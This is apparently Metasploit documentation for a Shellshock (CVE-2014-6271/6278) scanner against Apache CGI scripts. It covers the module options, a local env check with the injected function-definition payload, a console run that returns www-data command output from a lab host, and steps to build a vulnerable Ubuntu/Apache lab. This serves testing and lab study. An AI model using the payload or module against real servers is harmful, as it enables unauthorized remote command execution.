 ## Vulnerable Application

This module scans for the Shellshock vulnerability, a flaw in how the Bash shell handles external environment variables. This module targets CGI scripts in the Apache web server by setting the HTTP_USER_AGENT environment variable to a malicious function definition.

## Verification Steps
1. Do: run `msfconsole`
2. Do: set `RHOSTS [IP]`
3. Do: set `TARGETURI [URI]`
4. Do: `run`

### To check if a host is vulnerable to the attack
1. run (on the host)
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
2. The shell will return the below text if the environment is vulnerable
``` 
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'   
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
``` 

## Options
1. `CMD`. The default setting is /usr/bin/id
2. `CVE`. The default setting is CVE-2014-6271 but valid options are CVE-2014-6271 or CVE-2014-6278
3. `HEADER`. The default setting is User-Agent
4. `METHOD`. The default setting is GET
5. `Proxies`. This option is not set by default
6. `RHOSTS`. This option is not set by default but must bet set to run the scanner. It will most likely be set to the IP address of the remote server that the module is run against.
7. `RPORT`. This option is set to 80 by default 
8. `SSL`. This option is not set by default
9. `TARGETURI`. This option  is not set by default but must be set to run the scanner. This option will be set to a cgi script on the target server.
10. `THREADS`. This option is set to 1 by default
11. `VHOST`. This option is not set by default

## Scenarios

### Ubuntu 12.04.5 LTS on Apache 2.2.22
  ```
msf5 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 172.16.131.134
RHOSTS => 172.16.131.134
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/test.sh
TARGETURI => /cgi-bin/test.sh
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit

[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```

### Creating a Vulnerable Environment
To setup an Environment that the scanner can be run against, follow the below steps to install a vulnerable OS and Apache version

  To ensure that you have a vulnerable version of bash:
  1. Install Ubuntu 12.04.5 LTS from ISO (available at: http://cdimage.ubuntu.com/releases/12.04/release/)
  2. log into console 
  3. run 
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
  4. The shell will return the below text to confirm that the environment is vulnerable
```
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
```
(NOTE: The next series of commands should be run as root or with sudo) <br>
5. Also install Apache2 from the apt repository with the following command
```
apt-get install apache2
```
  6. Enable cgi-mod in apache with the following command
```
ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
```
  7. Restart the apache service with the following command
```
service apache2 reload
```
  8. In your favorite text editor create a file (as root) in /usr/lib/cgi-bin called test.sh with the following contents
```
#!/bin/bash
printf "Content-type: text/html\n\n"
printf "Test!\n"
```
  9. Set the file to be executable with the following command
```
sudo chmod +x /usr/lib/cgi-bin/test.sh
```
